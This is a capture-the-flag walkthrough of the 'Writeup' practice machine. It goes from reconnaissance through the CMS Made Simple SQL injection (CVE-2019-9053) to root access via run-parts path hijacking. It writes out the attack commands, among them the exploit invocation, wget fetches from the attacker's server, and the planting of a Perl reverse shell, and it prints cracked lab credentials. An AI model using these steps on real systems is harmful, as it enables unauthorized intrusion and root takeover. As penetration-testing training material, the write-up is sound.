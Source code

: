 # Writeup

## Introduction
Despite it’s easy rating, this box has a DoS protection system in place that protects it from brute-force based techniques and makes enumeration an extra challenge. Once the system being used is identified we will be using a known exploit for a Common Vulnerabilities and Exposures (CVE) entry, namely an SQL injection for the Content Management System (CMS) called CMS Made Simple. Privilege escalation requires process enumeration to identify the path hijacking vulnerability to trigger root execution of a custom process, in our case this will be a reverse TCP shell.

| Skills Required | Skills Learned |
| ----- | ----------------------------------- |
| Usage of Linux | Path Hijacking |
| Enumeration | Process Enumeration |

NOTE: Thanks to recent updates to burp suite, the enumeration method for this box is only available on versions of burpe suite 1.7.36 and below unless you pay for the professional or enterprise edition. Burp suite community version 1.7.36 with the spider feature can be downloaded from https://portswigger.net/burp/releases/professional-community-1-7-36. There are alternative tools available that can bypass the DoS protection for enumeration such as ZAP https://www.kali.org/tools/zaproxy/.

## Phase 1 – Reconnaissance
Due to the DoS protection in place, the reconnaissance phase involves a port scan and manual enumeration of the services running as the use of tools such as ``dirb`` are limited.

### Port Scanning
Nmap scan using ``nmap -T4 -sC -sV -p- [target ip]`` reveals a web server on port 80 and an SSH service on port 22. By adding ``-oN [filename]`` we can save the scan results to look at later.

![img](assets/nmap_scan.png)

### Web Enumeration

The server is using an anti-DoS script so any further enumeration attempts with ``dirb`` or ``fuzz``
will be futile as our IP will be banned for one minute.

![img](assets/dirb_fail.png)

When we visit the web URL we are presented with a bizarre looking page which has no functionality. We can enumerate the web service still by intercepting a request with burp-suite, then by right-clicking on it we can ‘send to spider’’. Switch to the ‘target’ tab to see the results.

![img](assets/spider.png)

NOTE: This feature is only available in versions of burp suite 1.7.36 and below. See introduction for additional help.

Navigating to /robots.txt simply gives us a clue that users are not suppose to access the blog yet which is at /writeup. Navigating to /writeup shows a page that links to some notes on solving retired boxes. If you have the Wappalizer extension installed on your browser then it can reveal that this directory is using CMS Made Simple. Alternatively this can be discovered without Wappalizer by using inspect element or view page source.

![img](assets/pagesource.png)

## Phase 2 – Exploitation
To exploit this machine we need to identify the common vulnerability CVE-2019-9053 and then deploy an exploit which will reveal a user name and password for the machine. Once we have this information we can acquire access via the SSH service running.

### CMS Made Simple SQL Injection
Now that we have established that CMS Made Simple is installed, we can exploit this vulnerable application. We do not know the exact version of the CMS installation however we could see from the page source that it is from 2019. Using the internet we can find a then recent SQL Injection based vulnerability for versions below 2.2.10 known as CVE-2019-9053, there is an exploit associated with it available that could work with our version.

![img](assets/searchsploit.png)

The exploit can be found using ``searchsploit`` which reveals the location of a python script, but the same script can be also found on the internet at https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQLInjection.html. 

![img](assets/script_start.png)

The script functions by exploiting an SQL injection vulnerability to acquire the values for the username and email with the password hash, the script can additionally be run with a wordlist which it will attempt to brute-force the password hash it finds. Regardless of how it is acquired, the script can be run along with it’s brute-force function with ``python [scriptname].py -u http://[target IP]/writeup/ --crack -w /usr/share/wordlists/rockyou.txt``. If you get errors it is because the script uses a package that isn’t default with python version 2, to fix this install pip for python 2 with ``sudo apt install pip2`` then use ``pip2 install termcolor``

![img](assets/script_results.png)

We can use it with the rockyou.txt wordlist and get the password through the exploit scripts own brute-force function. Alternatively we can decrypt the hash manually at https://www.md5online.org/md5-decrypt.html and since the script has found the salt we know to remove the salt pre-fix from the decrypted string to get the actual password. Our access credentials are finally revealed to be the user name ``jkr`` with the password ``raykayjay9``.


### Accessing the User Account
Now that we have credentials we may first try to attempt to login to the admin web panel at URI ``/writeup/admin``but the credentials will not work. They do however work for gaining access via the SSH service we detected with our port scan.

![img](assets/ssh.png)

We now have access to the machine through SSH with user privileges. From here we can get the user flag.

## Phase 3 – Privilege Escalation
To escalate to root privileges will require numeration of the machine processes bu utilizing the tools available to us. Once we identify the vulnerable process, we will be able to force the root level execution of our reverse TCP shell and gain full control and access over the system.

### Process Enumeration
A helpful tool for doing this is a program called pspy by user DominicBreuker which can be easily acquired from https://github.com/DominicBreuker/pspy. We can upload to the target via ``wget`` and a simple python web server.  So that we know whether to use the 32bit or 64bit version of pspu we can check it via SSH using ``uname -a``.

![img](assets/uname.png)

Since we are dealing with a 64-bit operating system and architecture, we will use the 64bit binary file and host it using a python server by using ``sudo python3 -m http.server 80`` from the directory, this will cause that directory to be hosted as a web service. 

![img](assets/python_server.png)

After downloading the enumeration tool with ``wget [our IP]/pspy64`` we must use the command ``chmod +x pspy64`` which will make the binary file executable. We can then run the file and it will begin to monitor process activity, revealing for us any possible vulnerabilities.

![img](assets/pspy.png)

Since the terminal is now being used for monitoring processes, we must use a separate terminal if we wish to continue using SSH, however upon logging in to SSH we can detect a process called run-parts being executed with root privileges. 

![img](assets/runparts.png)

The linux system command ``run-parts`` is used to run all the scripts and programs in a given directory. The vulnerability here is that we are able to access this directory from our user level privileges yet ``run-parts`` command is executed at root level.  This means we can infect the process path with our own process, in this case we can use a shell that will give us access. This type of attack is known as path hijacking.

### Path Hijacking
We can use our python server to upload a reverse TCP shell and then place it into the /bin/run-parts directory, this will mean that next time we connect via SSH we will be able to spawn a shell with root privileges. In this walk-through we will use an executable shell with pearl which can be downloaded from http://pentestmonkey.net/tools/webshells/perl-reverse-shell however one can also be found at ``/usr/share/webshells/perl/perl-reverse-shell.pl``. 

![img](assets/edit_shell.png)

First we need to edit the script to have our IP address and our chosen listener port to send the shell back to. If we save it to our hosted directory, we can use ``wget`` again with our python server to put the shell script on the target machine. To carry out the path hijacking we must copy our shell into the directory being executed via run-parts using ``cp shell.pl /usr/local/bin/run-parts``.  We also need to change the permissions so the file can be executed correctly once again with ``chmod +x /usr/local/bin/run-parts`` on the target.

![img](assets/path_hijack.png)


If we start our listener then use separate terminal window to connect to SSH with jkr@10.10.10.138 we can spawn ourselves a shell with root permissions and use it to acquire the root flag.

![img](assets/root.png)

If using a pearl shell and it doesn't work at first, run the file from the user folder on target via the SSH connection when first uploaded then repeat the path hijack process by copying it after it has been run for the first time.

## Conclusion
This machine decides to throw a curve-ball to newer players by using DoS protection to limit enumeration by blocking web directory brute-force tools, however the burp-suite spider method we used here will reveal everything that is required. With some investigation and analysis coupled with online research we can identify a CVE and exploit for the web service. This box introduces the technique of path hijacking to hijack a root level process by manipulating the directory we have access to.